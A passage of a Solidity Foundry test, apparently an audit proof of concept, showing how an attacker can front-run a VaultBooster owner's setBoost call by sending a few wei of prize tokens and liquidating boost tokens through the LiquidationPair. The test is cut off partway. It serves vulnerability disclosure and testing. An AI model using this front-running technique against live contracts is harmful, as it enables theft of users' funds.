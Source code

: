 ```solidity

    //Prize Vault
    vault = makeAddr("vault");

    //Prize Pool
    params = ConstructorParams(
      IERC20(address(prizeToken)),
      twabController,
      drawManager,
      drawPeriodSeconds,
      lastClosedDrawStartedAt,
      initialNumberOfTiers,
      100,
      10,
      10,
      ud2x18(0.9e18),
      sd1x18(0.9e18)
    );
    prizePool = new PrizePool(params);

    //Vault Booster
    booster = new VaultBooster(prizePool, vault, address(this));

    //Liquidation Pair
    source = ILiquidationSource(address(booster));
    liquidationPair = new LiquidationPair(
      source,
      address(prizeToken),
      address(boostToken),
      periodLength,
      periodOffset,
      targetFirstSaleTime,
      decayConstant,
      initialAmountIn,
      initialAmountIn,
      minimumAuctionAmount
    );
  }

  function testFrontRun() public {
    vm.warp(0);

    //Minting 1e18 Boost Tokens to the Booster
    boostToken.mint(address(booster), 1e18);

    //Setting up the Booster to allow liquidation for Boost Token
    booster.setBoost(boostToken, address(liquidationPair), UD2x18.wrap(0.001e18), 0.03e18, 1e18);

    //Ensuring VaultBooster is properly configured
    Boost memory boost = booster.getBoost(boostToken);
    assertEq(boost.available, 1e18);

    vm.warp(10);

    //Now the Vault Booster's owner decides to update the boost values by calling `setBoost`
    //But attacker front-runs it by doing the following two steps in a single transaction

    //1. Attacker sends 100 wei Prize Tokens to Prize Pool
    prizeToken.mint(address(prizePool), 100);
    //2. Attacker calls the liquidation Pair to liquidate 100 wei of Boost Tokens for 100 wei of Prize Tokens in Vault Booster
    vm.prank(address(liquidationPair));
    booster.liquidate(address(this), address(prizeToken), 100, address(boostToken), 100);
```